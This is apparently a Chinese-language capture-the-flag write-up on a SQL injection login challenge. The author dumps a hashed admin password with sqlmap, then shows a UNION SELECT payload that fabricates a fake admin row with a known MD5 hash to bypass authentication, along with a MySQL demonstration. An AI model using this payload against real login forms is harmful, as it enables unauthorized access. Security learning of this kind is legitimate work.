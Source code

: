 好有意思的sql注入，可以只做出来了一般:sob:.

开局看到sql注入，于是想到用sqlmap开扫

然后扫出来结果

```
+----+----------------------------------+----------+
| id | passwd                           | username |
+----+----------------------------------+----------+
| 1  | cdc9c819c7f8be2628d4180669009d28 | admin    |
+----+----------------------------------+----------+
```

然后一直在思考password的反md5解密，

然后就急着去看wp了，下次别急着去看wp，多思考一下

然后发现是利用sql语句中的联合查询创造一个虚拟用户了，exp如下

```
name=1' union select 1,'admin','202cb962ac59075b964b07152d234b70'#&pw=123
```

创造虚拟用户的实际操作如下

```

mysql> select 1,2,3 union select 1,"admin",1111 ;
+---+-------+------+
| 1 | 2     | 3    |
+---+-------+------+
| 1 | 2     |    3 |
| 1 | admin | 1111 |
+---+-------+------+
2 rows in set (0.00 sec)
```

